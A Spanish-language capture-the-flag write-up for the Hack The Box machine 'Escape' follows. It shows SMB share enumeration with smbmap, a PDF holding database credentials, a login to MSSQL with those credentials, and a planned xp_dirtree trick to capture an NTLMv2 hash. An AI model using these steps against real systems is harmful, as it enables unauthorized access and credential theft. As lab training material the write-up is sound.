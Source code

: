 ```bash
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Empezemos Enumerando los recursos compartidos a nivel de Red.

```bash
❯ smbmap -H 10.10.11.202 -u 'null'
[+] Guest session   	IP: 10.10.11.202:445	Name: sequel.htb                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	Public                                            	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
```
Vemos un directorio  Public Enumeremos este directorio para ver que archivos tiene dentro

```bash
❯ smbmap -H 10.10.11.202 -u 'null' -r public
[+] Guest session   	IP: 10.10.11.202:445	Name: sequel.htb                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	public                                            	READ ONLY	
	.\public\*
	dr--r--r--                0 Sat Nov 19 06:51:25 2022	.
	dr--r--r--                0 Sat Nov 19 06:51:25 2022	..
	fr--r--r--            49551 Sat Nov 19 06:51:25 2022	SQL Server Procedures.pdf
```
Descarguemos este pdf para ver que informacion tiene.
```bash
❯ smbmap -H 10.10.11.202 -u 'null' --download "Public/SQL Server Procedures.pdf"
[+] Starting download: Public\SQL Server Procedures.pdf (49551 bytes)
[+] File output to: /home/blank/Desktop/htbMachine/escape/content/10.10.11.202-Public_SQL Server Procedures.pdf
```
Si abrimos este pdf al final del documento nos dan unas credenciales de acceso a la base de datos, Connectemosnos con la herramienta mssqlclient.py 
```bash
❯ mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> 
```
## Intrusion
Con el usuario que nos loguiamos no tenemos capacidad de activar las opciones avanzados ni de usar xp_cmdshell, pero todo no esta perdido ya que podemos hacer uso de xp_dirtree para que se conecte a nuestro recurso compartido a nivel de red y asi poder capturar el hash ntlm v2 al momento que se conecte.
